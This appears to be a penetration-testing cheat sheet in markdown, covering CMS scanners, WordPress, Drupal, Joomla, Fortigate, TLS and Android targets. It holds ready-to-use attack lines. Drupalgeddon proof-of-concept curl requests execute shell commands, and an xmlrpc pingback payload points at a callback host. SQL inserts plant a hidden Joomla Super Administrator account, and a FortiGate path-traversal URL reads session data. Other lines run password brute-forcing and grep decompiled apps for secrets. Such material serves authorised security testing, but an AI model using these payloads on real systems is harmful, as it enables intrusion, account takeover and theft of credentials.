 # Techno Specific

## **CMS**

### Tools

```sh
#nikto
nikto -C all -output nikto.html -host <target> 

#cmsmap
git clone https://github.com/Dionach/CMSmap && cd CMSmap && pip3 install .
cmsmap.py <target> -o cmsmap.log

#wig
git clone https://github.com/jekyc/wig.git && cd wig && python3 setup.py install
Wig.py <target> -w wig.log 

#wpscan (need API key)
WPScan -v --proxy socks5://127.0.0.1:9090 -e u1-100,vp,vt --passwords rockyou.txt --api-token <API_key> --url <target>

#wpseku
git clone https://github.com/m4ll0k/WPSeku.git && cd WPSeku && pip install -r requirements.txt
python wpseku.py --target <target>

#droopescan
pip install droopescan
droopescan scan drupal -t 32 -u <target> [-U list_of_urls.txt]

#joomscan
joomscan -u <target>
```

---

### Wordpress

Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

**XMLrpc**

List methods

```sh
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

If there is pingback, try :

```bash
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

---

### Drupal

- intruder from 0 to 500 on /node/$

```bash
/imce
```

POC1 drupal 8

```bash
  curl -k -i '<target>/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

POC2 drupal 8

```bash
curl -k -i '<target>/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

POC3 drupal 7

```bash
 curl -k -s '<target>/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

---

### Joomla

Joomla 1.5

```bash
user:md5_gen(1)MD5$SALT
```

*  [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```bash
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('toto', 'toto', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'toto', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

---

## **Reactjs**

- [React Developer Tools](https://addons.mozilla.org/fr/firefox/addon/react-devtools/) (edit props/state/hooks values)

**Security Testers**: Inject JavaScript and JSON wherever you can and see what happens. 

**Developers**: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

---


## **Angularjs**

Check the bypassSecurityTrustX / innerHTML function

```bash
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

---

## **ckfinder**

```bash
ckfinder/ckfinder.html
```

---

## **Git**

- [GitTools Dumper](https://github.com/internetwache/GitTools/tree/master/Dumper)
- [git-dumper](https://github.com/arthaud/git-dumper)

```bash
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

---

## **Stormshield**

- [test for default password](https://github.com/jenaye/netasq-1300)

[Stormshield Documentation](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)
```bash
# Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) 
CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0
```

---

## **Fortigate**

- [CVE-2018-13379](https://www.exploit-db.com/exploits/47288)

```sh
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

---

## **Dana**

```bash
https://XXXX/dana-na/setup/psalinstall.cgi
```

## **SSL / TLS**

* [testssh.sh](https://github.com/drwetter/testssl.sh)

### Openssl

```bash
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

Check Heartbleed

```bash
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

Check lucky13

```bash
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

---

## **Android**

Apktool

```bash
apktool d app_name.apk
```

Extract sensitive info

```bash
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```



